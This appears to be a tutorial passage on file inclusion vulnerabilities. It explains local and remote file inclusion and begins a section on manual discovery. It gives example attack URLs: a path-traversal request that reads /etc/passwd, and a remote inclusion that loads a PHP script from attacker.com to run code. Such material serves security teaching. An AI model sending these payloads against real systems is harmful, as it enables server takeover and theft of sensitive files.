 # Types of File Inclusion

There are two primary types of File Inclusion vulnerabilities, each of which provides different levels of access and exploitation potential.

## Local File Inclusion (LFI)
- LFI occurs when the application allows the inclusion of files from the local file system. This can lead to sensitive information disclosure or code execution if log files or other writable files are accessible.

### How LFI Works
1. **File Path Injection:** The attacker injects a path to a file stored on the server, like `/etc/passwd` or log files.
2. **Inclusion of Arbitrary Files:** The server includes the specified file and displays or executes its contents.
3. **Sensitive Data Exposure:** The attacker gains access to sensitive files, such as configuration files, passwords, or even source code.

**Example:**
```
http://<target_domain>?page=../../../../etc/passwd
```
This injects a path to the `/etc/passwd` file, displaying its contents, which can leak sensitive user information.

## Remote File Inclusion (RFI)
- RFI occurs when the application allows the inclusion of files from remote locations (e.g., external URLs). This vulnerability is more severe than LFI because it allows attackers to include files they control, leading to remote code execution.

### How RFI Works
1. **Remote URL Injection:** The attacker injects a remote URL pointing to a malicious script, such as a web shell.
2. **Code Execution:** The server includes and executes the remote file, often giving the attacker full control over the server.
3. **Remote Code Execution:** The attacker can execute arbitrary commands or scripts by including malicious files hosted on a remote server.

**Example:**
```
http://<target_domain>?page=http://attacker.com/malicious_script.php
```
The server loads the external PHP script and executes it, allowing the attacker to run commands on the server.

# Manual Discovery Techniques for File Inclusion

Here are several manual techniques to discover and exploit File Inclusion vulnerabilities:

## Inspect Input Parameters
   - Review the application for any parameters that may be used to include files. Common parameters might be `page`, `file`, `document`, etc.
   - **Example:**
     ```
     http://<target_domain>?page=about
     ```
